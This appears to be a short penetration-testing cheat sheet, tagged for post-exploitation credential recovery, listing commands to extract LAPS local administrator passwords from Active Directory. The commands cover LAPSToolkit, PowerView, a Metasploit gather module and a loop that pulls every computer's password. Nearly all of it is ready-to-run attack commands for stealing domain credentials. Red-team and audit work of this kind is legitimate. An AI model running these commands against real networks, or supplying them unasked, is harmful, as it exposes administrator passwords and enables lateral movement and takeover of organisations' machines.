 # LAPS

% laps, password

## get laps passwords
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  
```
Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize
```

## get laps computer list
```powershell
Import-Module .\LAPSToolkit.ps1
Get-LAPSComputers
```

## find the list of group who can manipulate SAM data
```powershell
Import-Module .\LAPSToolkit.ps1
Find-LAPSDelegatedGroups
```

## powerview get laps password
```powershell
Get-DomainObject <computer> -Properties "ms-mcs-AdmPwd",name
```

## metasploit get laps password
```
use windows/gather/credentials/enum_laps
```

## get all machine passwords
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```
